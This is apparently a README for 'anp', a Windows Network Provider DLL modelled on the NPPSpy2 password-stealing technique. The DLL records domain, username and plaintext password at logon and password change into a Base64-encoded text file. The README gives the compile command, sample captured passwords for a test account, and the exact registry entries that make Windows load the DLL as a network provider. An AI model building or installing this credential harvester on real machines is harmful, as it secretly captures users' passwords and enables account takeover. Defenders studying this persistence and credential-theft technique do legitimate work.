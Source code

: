 # anp

Network Provider tests based on [NPPSpy2](https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy2) by [gtworek](https://github.com/gtworek).

The logging structure is: 

```
{"timestamp":"TIMESTAMP","operation":"OPERATION","domain":"DOMAIN","username":"USERNAME","password":"PASSWORD"}
```

## 1. Store in a text file + Base64-encoding

The default path is "C:\Windows\Task\default.txt" but you can customize it using the macro /DFILE_PATH:

```
cl /LD /DFILE_PATH=\"C:\\\\Users\\\\ricardo\\\\Desktop\\\\custom_path.txt\" 1_base64_textfile.c crypt32.lib /link /OUT:anp.dll
```

This creates a file with a content similar to:

```
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9PTEQiLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InFxIn0=
eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9ORVciLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InEifQ==
```

Which decoded is:

```
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_OLD","domain":"DESKTOP-0N6G696","username":"ricardo","password":"qq"}
{"timestamp":"2025-04-14 10:28:36","operation":"PWD_UPDATE_NEW","domain":"DESKTOP-0N6G696","username":"ricardo","password":"q"}
```

<br>


--------------------

## Installation

```
HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order
- ProviderOrder -> Add anp
```

```
HKLM\SYSTEM\CurrentControlSet\Services\anp\NetworkProvider
- Class = [REG_DWORD]2
- ProviderPath = [REG_EXPAND_SZ]"C:\Users\ricardo\Desktop\test\test.dll"
- Name = [REG_SZ]"anp"
```
